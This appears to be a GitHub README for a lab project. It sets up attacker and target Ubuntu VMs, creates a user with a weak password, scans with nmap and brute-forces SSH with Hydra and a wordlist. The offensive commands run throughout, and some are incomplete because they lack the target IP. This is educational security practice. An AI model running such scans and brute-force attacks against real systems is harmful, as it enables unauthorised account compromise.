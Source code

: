 # Password Cracker 

This project aims to use the tools Hydra and Hashcat to simulate a password cracking attack 

## HYDRA ON SSH

## STEP 1: SETUP UP 2 UBUNTU VMs

### SERVER 1 (Attacker)

Install Hydra: `sudo apt update` `sudo apt install hydra -y`

Install Nmap: `sudo apt install nmap -y`

### SERVER 2 (Target)

Install SSH: `sudo apt update` `sudo apt install openssh-server -y`

## STEP 2: CREATE TEST USER WITH WEAK PASSWORD (In Target)

Command used: `sudo  adduser adminuser`
** Password was set to: password123 **

## STEP 3: START SSH SERVER

Command used: `sudo systemctl start ssh` 

## STEP 4: FIND TARGET VM'S IP ADDRESS (In Attacker)

Find subnet of VM: `ip a`
The  subnet was 192.168.56.101/24

![using command to check ip](images/ip_a.png)

Scan subnet with Nmap: `nmap -sn 192.168.56.101/24  `

Scan IPs for open ports: `nmap -p 22 --open `

![scanning ip](images/scanning.png)
 
## STEP 5: CREATE A WORDLIST FILE

Command used: `touch password.txt`

The file contained a list of possible passwords

![password list](images/passwords.png)

## STEP 6: LAUNCH HYDRA ATTACK

Command used: `hydra -l adminuser -P password.txt ssh://`

![successful use of hydra](images/hydra.png)
